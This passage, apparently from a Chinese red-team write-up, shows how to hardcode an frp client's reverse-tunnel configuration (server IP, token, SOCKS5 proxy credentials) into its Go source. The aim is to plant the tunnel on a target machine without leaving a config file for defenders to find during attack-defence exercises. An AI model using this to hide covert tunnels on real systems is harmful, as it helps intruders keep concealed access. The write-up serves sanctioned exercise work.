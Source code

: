 ```shell
zsh ./package.sh
```

![image-20210511182350685](https://z3.ax1x.com/2021/05/14/grkP1I.png)

### 后续1:把配置写入源码食用方式

​	通常情况frp的运行程序要跟连接配置文件 `frpc/s.ini`一起传到目标机上运行。在某些情况下，如HVV时，可能会被其他师傅直接反日。 为了防止或者减少被直接"反打"，把配置写死在代码中可以在一定程度上避免泄露配置信息。

frpc.ini

```bash
[common]
server_addr = 192.168.176.128
server_port = 6666
token = U2VjZGUwIA0K
tls_enable = true
[http_proxy]
type = tcp
remote_port = 23333
plugin = socks5
plugin_user = Secde0
plugin_passwd = Swcde0!
use_encryption = true

```

要修改这几个文件：

```sqlite
cmd/frpc/sub/root.go
cmd/frpc/sub/status.go
cmd/frpc/sub/reload.go

```

#### 改`root.go` 

​	在var()中新建个变量保存配置内容：

```go
fileContent = `
[common]
server_addr = 192.168.176.128
server_port = 6666
token = U2VjZGUwIA0K
tls_enable = true
[http_proxy]
type = tcp
remote_port = 23333
plugin = socks5
plugin_user = Secde0
plugin_passwd = Swcde0!
use_encryption = true
`
```
